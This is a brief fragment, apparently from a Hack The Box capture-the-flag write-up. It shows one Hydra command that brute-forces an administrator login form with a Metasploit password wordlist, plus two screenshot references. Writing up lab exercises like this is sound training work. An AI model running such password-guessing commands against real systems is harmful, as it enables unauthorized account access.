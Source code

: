 **Command:**
hydra -s 31936 -l Administrator -P /usr/share/metasploit-framework/data/wordlists/password.lst docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" 

![](request.png)
![](response.png)
